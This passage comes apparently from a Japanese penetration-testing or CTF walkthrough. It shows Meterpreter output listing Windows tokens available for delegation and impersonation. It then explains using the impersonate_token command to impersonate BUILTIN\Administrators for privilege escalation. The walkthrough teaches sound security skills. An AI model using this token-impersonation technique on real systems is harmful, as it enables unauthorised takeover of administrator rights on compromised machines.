 ```
NT SERVICE\CscService
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\netprofm
NT SERVICE\nsi
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
NT SERVICE\W32Time
NT SERVICE\WdiServiceHost
NT SERVICE\WinHttpAutoProxySvc
NT SERVICE\wscsvc


```

`BUILTIN\Administrators`の token が使用できるので `impersonate_token` コマンドを使用して `BUILTIN\Administrators` になりすまします。

```
meterpreter > impersonate_token 
Usage: impersonate_token <token>

Instructs the meterpreter thread to impersonate the specified token. All other actions will then be made in the context of that token.

Hint: Double backslash DOMAIN\\name (meterpreter quirk)
Hint: Enclose with quotation marks if name contains a space
```
